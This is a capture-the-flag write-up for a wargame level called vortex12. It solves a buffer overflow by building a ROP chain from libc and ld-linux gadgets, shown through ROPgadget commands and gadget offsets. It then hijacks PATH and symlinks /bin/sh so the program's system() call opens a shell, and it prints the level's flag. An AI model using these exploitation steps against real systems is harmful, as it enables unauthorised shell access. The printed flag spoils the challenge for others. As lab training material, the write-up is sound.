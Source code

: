 ```yaml
---
layout: default
title: vortex12
---
```




in this challenge we need to use ROP chain in order to exploit the buffer overflow. 
we will find our gadgets in *libc.so.6*, and in *ld-linux.so.2*.

using this command we can see where every file is loaded: 
```
ldd /vortex/vortex12
```
/lib/i386-linux-gnu/libc.so.6 (**0xf7d7d000**)
/lib/ld-linux.so.2 (**0xf7fc9000**)


find "pop eax", "pop edx", in libc.so.6
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "pop|ret" | grep -E "pop (eax|edx) ; ret"
```
* pop eax -> 0x0012b311 (in **libc.so.6**)
* pop edx -> 0x0003be0d (in **libc.so.6**)

then, find "mov [edx], eax", in ld-linux.so.2 
```
 ROPgadget --binary /lib/ld-linux.so.2 --only "mov|ret" | grep -E "mov .* \[edx\], eax ; ret"
```
![image](./images/level12_2.png)

* mov [edx], eax -> 0x0001250b (in **ld-linux.so.2**)

we only need to call exit, so, first let's find "mov eax, 1".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "mov|ret" | grep -E "mov eax, 1"
```
* mov eax, 1 -> 0x0005cdb5 (in **libc.so.6**)

and then, call the kernel using "int 0x80".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "int"
```
* int 0x80 -> 0x00039ed4 (in **libc.so.6**)

now, we can see it tries to run this command, `system("%d")`  
![image](./images/level12_3.png)

first we need to adjust the PATH variable:
```
export PATH=.:$PATH
```

and then, create link to `/bin/sh` using this command: 
```
ln -sf /bin/sh "%d"
```

finally :)

![image](./images/level12_4.png)

**Flag:** ***`kklZMRIrj`***